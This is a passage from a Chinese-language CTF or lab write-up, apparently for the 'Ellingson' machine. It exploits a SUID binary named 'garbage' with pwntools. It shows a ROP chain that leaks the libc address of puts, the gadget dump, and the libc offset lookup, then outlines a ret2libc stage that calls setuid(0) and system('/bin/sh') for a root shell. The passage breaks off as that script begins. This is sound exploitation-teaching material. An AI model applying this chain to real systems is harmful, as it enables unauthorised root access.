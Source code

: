 - pwntools验证，与人工分析得到的是一致的
{% highlight python %}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
context(os='linux', arch='amd64', log_level='INFO') # log_level='DEBUG'
context.binary = ELF('./garbage')

rop = ROP(context.binary)
rop.call(context.binary.plt['puts'], [context.binary.got['puts']])
rop.call(context.binary.symbols['main'])
log.info('=======leak ROP========')
log.info(rop.dump())
log.info('=======leak ROP========')
{% endhighlight %}

运行结果:
{% highlight console %}
Ellingson # python3 leak.py 
[*] '/tmp/Ellingson/garbage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/tmp/Ellingson/garbage'
[*] =======leak ROP========
[*] 0x0000:         0x40179b pop rdi; ret
    0x0008:         0x404028 [arg0] rdi = got.puts
    0x0010:         0x401050
    0x0018:         0x401619 0x401619()
[*] =======leak ROP========
{% endhighlight %}

- leak后计算内存中libc的地址, Ellingson主机上libc的put位置是`0x809c0`, 使用leak得到的puts地址减去`0x809c0`就是libc在内存中的位置
{% highlight console %}
Ellingson # objdump --disassemble-all libc.so.6 | grep '_IO_puts' | head 
   7e9c7:	e8 f4 21 00 00       	callq  80bc0 <_IO_puts@@GLIBC_2.2.5+0x200>
   7f6ef:	e8 cc 14 00 00       	callq  80bc0 <_IO_puts@@GLIBC_2.2.5+0x200>
00000000000809c0 <_IO_puts@@GLIBC_2.2.5>:
   809e7:	75 5d                	jne    80a46 <_IO_puts@@GLIBC_2.2.5+0x86>
   809fd:	74 43                	je     80a42 <_IO_puts@@GLIBC_2.2.5+0x82>
   80a0b:	74 08                	je     80a15 <_IO_puts@@GLIBC_2.2.5+0x55>
   80a11:	75 07                	jne    80a1a <_IO_puts@@GLIBC_2.2.5+0x5a>
   80a13:	eb 1b                	jmp    80a30 <_IO_puts@@GLIBC_2.2.5+0x70>
   80a18:	74 16                	je     80a30 <_IO_puts@@GLIBC_2.2.5+0x70>
   80a4e:	0f 85 d4 00 00 00    	jne    80b28 <_IO_puts@@GLIBC_2.2.5+0x168>
{% endhighlight %}


## 0x03 ROP stage2: ret2libc
- 接下来其实就是利用libc构造提权以及获取shell的ROP了
- `garbage`是以margo用户运行，但由于具有SUID权限位且属主为root，所以可以执行需要root权限的调用
- 利用libc调用`suid(0)`变成`root`
- 利用libc调用`system('/bin/sh')`获得shell就大功告成了
{% highlight python %}
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')
libc = ELF('./libc.so.6')

# GET leaked_put from stage 1